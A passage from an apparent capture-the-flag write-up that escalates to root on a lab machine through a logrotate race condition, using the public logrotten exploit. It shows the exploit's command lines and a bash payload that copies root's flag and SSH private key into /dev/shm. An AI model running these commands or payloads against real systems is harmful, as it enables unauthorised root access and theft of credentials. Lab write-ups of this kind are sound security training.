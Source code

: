 Inside `/etc/logrotate.conf` I found that the "create" option had been set.  There was only one condition remaining to meet the requirements for this exploit: I had to know that `logrotate` was actually running \(as root\). 

After running pspy for awhile, this entry showed up: `2020/06/07 17:08:30 CMD: UID=0 PID=16773 | /usr/sbin/logrotate -f /root/log.cfg.` So the system was indeed running `logrotate`, and it was loading a configuration file from the `/root directory`.  This seemed like enough evidence the process was running as root to me to test it.  It was now time to test out this exploit to see if I could escalate privileges to root.

### Getting a root shell

From the exploit writer at [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten):

> #### Precondition for privilege escalation
>
> * [x] Logrotate has to be executed as root
> * [x] The logpath needs to be in control of the attacker
> * [x] Any option that creates files is set in the logrotate configuration
>
> #### To run the exploit:
>
> If "create"-option is set in logrotate.cfg:
>
> ```text
> ./logrotten -p ./payloadfile /tmp/log/pwnme.log
> ```
>
> If "compress"-option is set in logrotate.cfg:
>
> ```text
> ./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
> ```

Based on my enumeration I found that all of the conditions for vulnerability to this exploit were met for the "create" option, except for one thing that wasn't in the checklist.  I could not find any configuration files related to `logrotate` that mentioned `access.log` in the `/home/reader/backups` folder. Since this was my writeable log file, it was pretty important that it be rotated by the service.  I decided to go ahead and try it anyway since it still looked like a likely approach.  I created a payload that would hopefully get me root access, and ran the exploit.

```text
#!/bin/bash
/bin/cat /root/root.txt > /dev/shm/test
/bin/cat /root/.ssh/id_rsa > /dev/shm/test2
```

My payload was designed to exfiltrate both `root.txt` and `root`'s SSH key.

```text
reader@book:/dev/shm$ ./logrotten -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```
